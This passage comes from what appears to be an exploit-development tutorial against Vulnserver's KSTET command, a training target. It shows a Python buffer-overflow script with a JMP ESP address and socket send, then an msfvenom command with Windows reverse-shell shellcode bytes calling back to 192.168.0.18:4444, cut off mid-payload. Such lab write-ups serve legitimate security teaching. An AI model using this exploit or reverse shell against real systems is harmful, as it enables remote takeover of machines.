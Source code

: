 ``` python
    STAGE1 +
    b'A' * (70 - 8 - len(STAGE1)) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending stage-1 payload...')
    fd.sendall(PAYLOAD)
    # This will trigger our stage-1 payload
    fd.recv(1024)
    print('Done.')
```

And check it:

<div class="imgblock">

![Stage-1 payload](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331152/blog/vulnserver-kstet/stage1payload_w7hmoo.gif)

</div>

Wonderful\! Our brute forcer was able to discover the socket handle
value on `EDI=0x144` and it’s ready to receive our stage-2 payload\!

## Stage 2: Injecting a reverse shellcode

Now all that’s left is to create a reverse shellcode and send it over
our stage-1 payload backdoor. As a bonus, as we control the `recv()`
call, we are not limited by bad chars on the shellcode.

Let’s create it:

``` console
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f python -v SHELL
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1660 bytes
SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
```